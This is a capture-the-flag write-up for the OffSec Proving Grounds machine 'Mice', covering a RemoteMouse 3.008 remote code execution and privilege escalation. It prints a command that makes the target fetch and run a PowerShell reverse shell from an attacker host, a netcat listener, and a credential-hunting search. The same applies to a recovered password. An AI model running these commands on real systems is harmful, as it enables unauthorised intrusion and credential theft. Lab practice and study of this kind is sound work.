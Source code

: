 # 🧪 Machine Name: Mice

**Platform:** OffSec Proving Grounds\
**IP Address:** `192.168.228.199`\
**Difficulty:** Easy

---

## 🧭 Overview

This PG machine exposes RemoteMouse and other uncommon ports. RemoteMouse 3.008 is known to be vulnerable to RCE. We leverage that to gain an initial foothold via a PowerShell reverse shell, then discover FileZilla credentials and escalate to Administrator via a known LPE vulnerability. Screenshots prove both user and root access.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate 10000 192.168.228.199
PORT     STATE SERVICE
1978/tcp open  remotemouse
1979/tcp open  unisql-java
1980/tcp open  pearldoc-xact
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub
```

```bash
nmap -p 1978,1979,1980,3380,7680 -sCV -oN nmapscan 192.168.228.199
```

- `1978` identified as RemoteMouse

---

## ⚙️ Exploitation – RemoteMouse RCE

- Vulnerability: [RemoteMouse 3.008 Arbitrary RCE](https://www.exploit-db.com/exploits/46697)
- Tool used: [RemoteMouse-3.008-Exploit.py](https://github.com/p0dalirius/RemoteMouse-3.008-Exploit)

### 🔁 Hosted revshell:

```bash
# PowerShell revshell saved as own.ps1
sudo python3 -m http.server 80
```

### 🐭 Trigger exploit:

```bash
./RemoteMouse-3.008-Exploit.py --target-ip 192.168.228.199 \
  --cmd "powershell -c \"iex (New-Object Net.WebClient).DownloadString('http://192.168.45.206:80/own.ps1')\""
```

### 🖥️ Netcat shell (User)

```bash
nc -lvnp 443
whoami → remote-pc\divine
hostname → Remote-PC
type Desktop\local.txt → `7b179f432c64ed054f461afac5c5bdb0`
```
![Mice Local Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_local.png)
---

## 🪜 Privilege Escalation

### 🔍 Credential Discovery

```bash
findstr /S /I /C:"pass" *.ini *.cfg *.config *.xml
```

- Found in: `C:\Users\divine\AppData\Roaming\FileZilla\recentservers.xml`
![Mice password](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_root2.png)
- Base64 decoded password: `ControlFreak11`

### 🎮 RDP login:

```bash
xfreerdp3 /v:192.168.228.199 /u:"divine" /p:"ControlFreak11" /f
```

### ⬆️ Admin Privesc – RemoteMouse GUI LPE

- [Exploit DB #50047](https://www.exploit-db.com/exploits/50047)
- Triggering RemoteMouse GUI LPE pops SYSTEM shell
![Remove mouse exploit](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_root1.png)
```cmd
whoami → nt authority\system
type Desktop\proof.txt → `5124eb2ab003150adea6c56b12755753`
```

---

## 📷 Proof
![ClamAV Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_root.png)


---

## 💡 Lessons Learned

- RemoteMouse is a common vector and often appears in PG/HTB.
- Always check for saved application configs like FileZilla.
- GUI privilege escalation with a service path or auto-start is viable and easy to overlook.

---

